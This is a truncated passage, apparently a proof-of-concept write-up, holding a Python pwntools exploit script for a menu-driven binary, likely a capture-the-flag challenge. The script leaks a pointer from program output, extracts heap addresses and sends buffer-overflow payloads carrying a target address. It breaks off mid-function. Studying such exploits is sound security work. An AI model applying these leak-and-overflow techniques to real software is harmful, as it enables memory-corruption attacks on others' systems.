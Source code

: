 
### Proof of Concept

```
from pwn import *
import struct
import re


mall = 2600

def get_leak(p):
    raw = p.recv()
    marker = b'Description : '
    start = raw.find(marker)
    if start == -1:
        raise ValueError("Marker not found in output")

    # Extract the bytes that follow — we assume 6-byte pointer
    leak_bytes = raw[start + len(marker):start + len(marker) + 6]

    # Pad to 8 bytes for 64-bit unpacking
    leak_addr = struct.unpack("<Q", leak_bytes.ljust(8, b'\x00'))[0]

    print(f"[+] Leaked address: {hex(leak_addr)}, type: {type(leak_addr)}")
    return leak_addr


def init_g(p):
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"a"*17)

def extract(data):
    print(f"HEAP INFO {data}")
    match1 = re.search(b'Name : (.+)(.{4})\n', data)
    if match1:
        # The last 4 bytes before newline are likely the address bytes
        address_bytes = match1.group(2)
        addr_8 = int.from_bytes(address_bytes, 'little')
        print(f"Extracted address bytes: {hex(addr_8)}")
        return addr_8
        
    else:
        print("No match found")

def trigger_fault_backup_3(p, lim=4):
    org_malloc = 0
    for i in range(0, 1):
        if i > 0:
            resp = p.recv()
        p.sendline(b"3")
        p.recv()
        payload = b"a"*16 + b"\x00\x50\x40\x00"
        p.sendline(payload)


def trigger_fault_backup(p, lim=4):
    global mall
    org_malloc = 0
    for i in range(0, lim):
```